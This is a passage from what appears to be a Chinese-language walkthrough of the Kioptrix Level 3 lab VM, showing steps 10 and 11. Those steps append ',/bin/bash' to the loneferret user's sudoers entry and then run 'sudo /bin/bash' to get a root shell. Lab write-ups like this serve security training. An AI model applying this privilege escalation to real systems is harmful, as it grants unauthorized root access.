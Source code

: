       ![16.png](./img/KioptrixVM3/16.png)

10. 在loneferrent这一行的末尾输入如下数据，按F2保存，F10退出
    
    ```shell
    ,/bin/bash
    ```
    
    ![17.png](./img/KioptrixVM3/17.png)
    
    11. 输入如下命令，成功提权
    
    ```shell
    sudo /bin/bash
    ```
    
    ![18.png](./img/KioptrixVM3/18.png)
